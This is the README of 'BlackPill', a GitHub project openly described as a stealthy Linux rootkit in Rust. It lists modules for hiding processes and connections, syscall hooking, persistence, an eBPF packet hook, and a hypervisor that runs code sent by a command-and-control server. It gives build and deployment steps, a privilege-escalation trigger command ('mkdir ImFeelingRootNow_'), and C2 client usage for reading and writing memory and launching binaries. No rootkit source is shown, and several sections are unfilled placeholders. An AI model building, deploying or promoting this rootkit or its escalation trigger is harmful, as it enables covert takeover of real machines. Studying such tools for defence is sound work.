

<h1 align="center">BlackPill</h1>
<p align="center">BlackPill is a stealthy Linux rootkit made in Rust.<p>
<div align="center">
    
    
    
</div>

## Features

The rootkit is composed of multiple modules (talking about Rust modules, not kernel modules) :

- **hiding**: hide files, processes, network connections, etc.
- **hooking**: hook syscalls and IDT
- **hypervisor**: create a virtual machine to execute malicious code
- **persistence**: make the rootkit persistent after reboot and resilient to supression
- **utils**: various utilities
- **xdp**: hook network packets

The architecture looks as the following :


And here is how malicious code is executed from C2 to VM guest :



C2 sends crafted assembled x86_64 mnemonics to the rootkit, which then sends it to the VM guest to execute it. The VM guest is isolated from the host and can be used to execute malicious code.

Kernel do not see incoming malicous packets as they are filtered by the eBPF XDP hook and sent to the LKM module, and outgoing packets are filtered by the eBPF TC program.

### Hooking

describe hooked syscalls

### Hiding

describe hidden files, processes, network connections, etc.

### Hypervisor

describe hypervisor

### Persistence

describe persistence

## Development environment

### Description

Multiple steps needs to be done before compiling our rootkit. The development environment is composed of :

- a simple Alpine Linux image providing essential tools
- a custom compiled kernel with Rust activated
- a simple QEMU virtual machine accelerated by KVM

Start by cloning the repository and its shallow submodules :

```shell
git clone git@github.com:DualHorizon/blackpill.git --recursive --depth 1
```

### Important dependencies

On an arch-based distribution :

```shell
sudo pacman -S qemu-base qemu-desktop docker grub
```

### Linux kernel

On an arch-based Linux distribution, install Rust and other dependencies :

```shell
sudo pacman -S rust rust-src rust-bindgen
sudo pacman -S clang lld llvm
```

Then we'll need Rust sources and bindgen :

```shell
rustup component add rust-src clippy rustfmt
cargo install --locked bindgen-cli
```

Make sure you can start compiling your kernel with Rust by running in folder `linux/` :

```shell
$ cd blackpill
$ pushd linux
$ make LLVM=1 rustavailable
Rust is available!
$ popd
```

Launch the first time setup task which configures and compiles the kernel :

```shell
make first-time-setup
```

> [!IMPORTANT]
> If you are asked of customizing options, press Enter each time.

### Rootkit

You can compile the Rust kernel module (out-of-tree) with :

```shell
make
```

Launch the VM with :

```shell
make vm
```

Inside the VM, you are auto logged in `root`. You can enable the module :

```shell
$ modprobe blackpill
# you can check kernel logs with
$ dmesg
```

## LPE Usage :

Once the vm started you can use the command above to escalate your privilege :
```shell
mkdir ImFeelingRootNow_
```

## C2 Usage

Setup the python client :
```shell
cd blackpill-c2
poetry install
poetry shell
python client.py
```
After launching the client with your args ([ip] [port]) you should get :

```python
➜ python client.py 0.0.0.0 1339
Connected to rootkit!
```
Then you can use the help command to display available commands :
```python
blackpill: help
Available Commands
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Command                             ┃ Description                                             ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ read_virt_memory <address>          │ Read 4 bytes (32 bits) memory at 'address'              │
│ write_virt_memory <address> <value> │ Write 4 bytes (32 bits) memory at 'address'             │
│ launch_userland_binary <path>       │ Launch a userland binary at 'path'                      │
│ change_msr <msr> <value>            │ Change the value of a Model Specific Register (MSR)     │
│ read_phys_memory <address> <value>  │ Read 4 bytes (32 bits) of physical memory at 'address'  │
│ write_phys_memory <address> <value> │ Write 4 bytes (32 bits) of physical memory at 'address' │
│ stop_execution                      │ Stop the execution of the guest VM                      │
│ change_vmcs_field <field> <value>   │ Change a VMCS field to 'value'                          │
│ help                                │ Show this help message                                  │
└─────────────────────────────────────┴─────────────────────────────────────────────────────────┘
```

## Credits

Environment setup :

- [Setting Up an Environment for Writing Linux Kernel Modules in Rust - The Linux Foundation](https://www.youtube.com/watch?v=tPs1uRqOnlk)
- [Kernel config qemu-busybox-min.config patch](https://lore.kernel.org/rust-for-linux/20230609063118.24852-18-amiculas@cisco.com/)
- [Rust out-of-tree module](https://github.com/Rust-for-Linux/rust-out-of-tree-module)
